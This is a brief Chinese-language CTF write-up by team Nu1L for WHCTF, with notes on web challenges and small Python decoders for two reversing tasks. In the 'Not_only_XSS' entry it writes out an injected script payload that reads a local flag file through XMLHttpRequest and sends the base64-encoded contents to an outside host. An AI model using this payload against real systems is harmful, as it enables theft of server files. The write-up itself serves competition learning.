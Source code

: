 # WHCTF-Nu1L

## Web

### cat

rr的题，看了看文档，发现可以利用@先读取index.php，然后在报错信息中发现有/opt/api/database.sqlite3，读取发现flag:

![cat](/Users/veneno/Desktop/cat.png)

### Emmm

phpinfo发现开启了xdebug，然后利用vim的插件去远程调试，有一个`,e`操作，实际就是eval，从而拿到flag:

![QQ20170916-172758@2x](/Users/veneno/Desktop/QQ20170916-172758@2x.png)

### Scanner

不想说啥了...

扫到trending.php，乱点发现有一个getimg.php：

![2](/Users/veneno/Downloads/2.jpg)

然后拿到flag：

![1](/Users/veneno/Downloads/1.jpg)

### Not_only_XSS

算是phantomjs 的本地文件读取漏洞:

secret=\<script>function reqListener () {var b64 = btoa(this.responseText);(new Image()).src="ip"%2bb64;}var oReq = new XMLHttpRequest();oReq.addEventListener("load", reqListener);oReq.open("GET", "file:///var/www/html/flag.php");oReq.send();\</script>

### Router

----

## Re

###CRACKME

```python
#CRACKME
t = [59, 102, 49, 75, 51, 123, 99, 53, 58, 101, 102, 108, 50, 49, 116, 52, 59, 49, 116, 49, 122, 97, 120, 112, 105, 109, 57, 125, 53, 43, 63, 103, 116, 117, 120, 59, 61, 118, 99, 57, 118, 123, 118, 55, 43, 98, 117, 104, 85, 123, 98, 84, 61, 45, 97, 109, 50, 113, 125, 61, 102, 104, 91, 120, 107, 123, 121, 63, 120, 114, 113, 101, 123, 63, 125, 108, 53, 45, 115, 100, 50, 45, 77, 111, 43, 58, 106, 123, 57, 61, 115, 89, 91, 100, 97, 108, 118, 112, 120, 63, 122, 51, 123, 63, 110, 111, 123, 91, 107, 53, 108, 108, 123, 122, 106, 115, 117, 53, 91, 107, 102, 108, 97, 43, 114, 54, 90, 103, 55, 50, 111, 48, 115, 107, 113, 54, 99, 71, 108, 53, 99, 119, 91, 61, 100, 63, 51, 118, 57, 113, 53, 45, 118, 107, 106, 83, 118, 123, 52, 115, 113, 116, 103, 61, 102, 48, 99, 122, 123, 43, 106, 117, 114, 106, 102, 108, 91, 116, 98, 93, 108, 114, 102, 70, 49, 59, 50, 125, 117, 100, 104, 98, 63, 48, 103, 56, 123, 111, 109, 58, 84, 52, 100, 104, 59, 122, 58, 111, 122, 45, 68, 110, 61, 109, 61, 117, 120, 59, 111, 91, 103, 115, 57, 123, 43, 122, 113, 120, 43, 115, 113, 45, 100, 115, 120, 99, 116, 99, 118, 121, 107, 85, 115, 50, 111, 100, 100, 114, 116, 52, 51, 112, 119, 118, 58, 102, 48, 59, 110, 106, 107, 114, 98, 57, 108, 111, 115, 54, 103, 48, 123, 105, 104, 63, 114, 113, 97, 110, 116, 102, 120, 36, 115, 115, 108, 113, 100, 58, 114, 118, 113, 105, 120, 114, 59, 106, 123, 63, 111, 58, 115, 110, 43, 91, 105, 91, 121, 65, 49, 49, 59, 103, 115, 109, 114, 56, 108, 109, 48, 63, 51, 125, 59, 43, 105, 118, 43, 84, 102, 58]
s = ''
for i in xrange(0,len(t),10):
    s += chr(t[i+1])
print s
```

### BABYRE

```python
#BABYRE
t = [102,109,99,100,127,107,55,100,59,86,96,59,110,112]
s = ''
for i,v in enumerate(t):
    s += chr(v^i)
print s
```

